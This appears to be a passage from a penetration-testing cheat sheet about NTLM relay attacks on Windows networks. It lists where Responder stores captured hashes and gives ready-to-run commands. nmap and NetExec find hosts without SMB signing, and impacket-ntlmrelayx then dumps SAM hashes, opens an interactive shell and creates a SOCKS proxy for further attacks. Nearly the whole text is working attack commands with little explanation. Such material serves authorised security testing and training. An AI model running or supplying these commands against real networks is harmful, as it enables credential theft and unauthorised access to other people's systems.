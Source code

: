 **Note:** Captured hashes can be found in:
- `/usr/share/responder/logs/<capture>` and/or
- `/usr/share/responder/Responder.db` in the `responder` table

#### NTLM Relay Attacks
---
For an NTLM relay attack to work, **SMB signing must be disabled, or not enforced**.

- Find hosts without SMB singing using nmap:

```c
nmap -Pn --script=smb2-security-mode.nse -p445 10.10.10.10
```

```c
nmap -Pn --script=smb2-security-mode.nse -p445 -iL targets.txt
```

- Find hosts without SMB singing using NetExec:

```c
netexec smb targets.txt --gen-relay-list relayable.txt
```

```c
netexec smb 10.10.10.10-20 --gen-relay-list relayable.txt
```

- **Disable** `HTTP` and `SMB` servers in the `/etc/responder/Responder.conf` configuration file and start Responder:

```c
sudo responder -I <interface name> -v
```

#### NTLM Relay with impacket-ntlmrelayx
---
##### Basic relay attack

- Will automatically do a secrets dump for SAM hashes
	- Hashes will be save in the working directory

```c
impacket-ntlmrelayx -tf targets.txt -smb2support
```

##### Interactive Shell (SMB)

- Will create a interactive shell that can be reached with Netcat

```c
impacket-ntlmrelayx -tf targets.txt -smb2support -i
```

##### Socks proxy

- Create a socks proxy that can be used for other attacks

```c
impacket-ntlmrelayx -tf targets.txt -of netntlm -smb2support -socks
```
